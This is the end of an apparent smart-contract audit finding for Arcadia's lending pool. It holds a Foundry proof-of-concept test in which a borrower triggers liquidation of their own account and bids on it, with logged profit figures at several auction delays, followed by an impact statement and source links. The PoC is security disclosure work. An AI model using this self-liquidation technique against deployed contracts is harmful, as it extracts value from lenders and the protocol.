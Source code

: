 ```js
        vm.stopPrank();
        // userTwo borrow asset
        vm.prank(userTwo);
        lendingPool.borrow(999e18, userTwoAccount, userTwo, "");
        // check userTwoAccount maxWithdraw
        assertEq(asset.balanceOf(userTwo), 999e18);
        assertEq(lendingPool.maxWithdraw(userTwoAccount), 999e18);
        // set userTwoAccount liquidate
        lendingPool.setOpenPosition(userTwoAccount, 1000e18);
        liquidator.liquidateAccount(userTwoAccount);
        // If no one bids for this account, userTwo will bid by itself.
        // vm.warp(block.timestamp + 14_399);
        vm.warp(block.timestamp + 4300);
        uint256[] memory askedAssetAmounts = new uint256[](1);
        askedAssetAmounts[0] = 1000e18;
        vm.startPrank(userTwo);
        asset.approve(address(lendingPool), 999e18);
        liquidator.bid(userTwoAccount, askedAssetAmounts, false);
        assertGt(lendingPool.maxWithdraw(userTwoAccount), 0);
        assertEq(liquidator.getAuctionIsActive(userTwoAccount), true);
        assertEq(userTwoStable1StartBalance, mockERC20.stable1.balanceOf(userTwo));
        assertEq(AccountV1(userTwoAccount).owner(), userTwo);
        console.log("userTwoSpendAsset:", 999e18 - asset.balanceOf(userTwo));
        console.log("userTwoGetAsset:", asset.balanceOf(userTwo) - userTwoAssetStartBalance);
        console.log("userTwoStable1EndBalance:", mockERC20.stable1.balanceOf(userTwo));
        vm.stopPrank();
        // From the conclusion, we can see that if the bid exceeds 1.2 hours, the liquidated party initiates self-liquidation, which is actually a very cost-effective operation.
        // vm.warp(block.timestamp + 14_399);
        // Logs:
        //     userTwoSpendAsset: 656260831467413565900
        //     userTwoGetAsset: 342739168532586434100
        //     userTwoStable1EndBalance: 1000000000000000000000

        // vm.warp(block.timestamp + 5000);
        // Logs:
        //     userTwoSpendAsset: 943672904455796045700
        //     userTwoGetAsset: 55327095544203954300
        //     userTwoStable1EndBalance: 1000000000000000000000

        // vm.warp(block.timestamp + 4300);
        // Logs:
        //     userTwoSpendAsset: 993259210960288445100
        //     userTwoGetAsset: 5740789039711554900
        //     userTwoStable1EndBalance: 1000000000000000000000
    }
}

```
## Impact
Users can liquidate and make profits on their own if conditions permit. As the liquidation time passes, the price of the liquidation collateral decreases, causing the liquidation to be unable to be completed smoothly.
## Code Snippet
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L414-L454
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L487-L513
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L938-L966
